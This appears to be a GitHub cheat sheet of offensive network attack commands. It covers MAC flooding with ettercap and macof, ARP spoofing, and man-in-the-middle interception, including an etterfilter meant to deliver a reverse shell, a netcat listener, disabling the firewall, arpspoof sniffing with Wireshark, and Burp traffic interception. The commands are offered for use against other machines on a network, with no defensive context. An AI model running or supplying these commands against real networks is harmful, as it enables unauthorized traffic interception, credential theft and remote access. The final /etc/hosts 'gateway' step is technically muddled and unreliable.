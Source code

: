 ### Tools: Ettercap, macof, ip, nmap, ping, Burpsuite

## Requirements: Root the machine that has access to more machines on its network, then scan with a port scanner (nmap)

# MAC FLODDING

#### 1) 

    ettercap -T -i INTERFACE -P rand_flood -q -w /tmp/tcpdump3.pcap

#### 2)

    macof -i INTERFACE

# ARP SPOOFING

#### 

    ettercap -T -i INTERFACE_2 -M arp

# MAN IN THE MIDDLE MANIPULATION

#### 1) Create a filter (preferably a reverse shell)

#### 2) Compile it with etterfilter

#### 

    etterfilter example.ecf -o example.ef

#### 3) 

    nc -lvnp PORT &

#### 4) 

    ufw disable

#### 5) 

    ettercap -T -i INTERFACE_2 -M arp -F example.ef

# MITM EXAMPLE 2
 
#### 1) 

    sudo arpspoof -i INTERFACE -t TARGET_MACHINE DEFAULT_GATEWAY

#### 2) 

    sudo wireshark (Capture live packets)

#### 3) 

    Filter on wireshark on what traffic you want to capture

## TIP: Attacker and target should be connected in the same network for this to work

# MITM EXAMPLE 3

## Requirements: Webapp uses self-signed certificate instead form a trusted CA

### Steps:

#### 1) Configure Burp by going to:

Select Proxy -> Toggle Intercept on -> Proxy Settings

#### 2) Now, on Proxy settings do:

Proxy listeners -> Add button -> Specific Address is our attacking machine and bind port is 8080 -> OK to apply configs

#### 3) Set our own machine as a gateway for the network we want to target

    sudo echo "OUR_ATTACK_IP gateway_dns_name" >> /etc/hosts

#### 4) And now, wait for profit, we are now MitM to sniff for traffic from other machines in the network

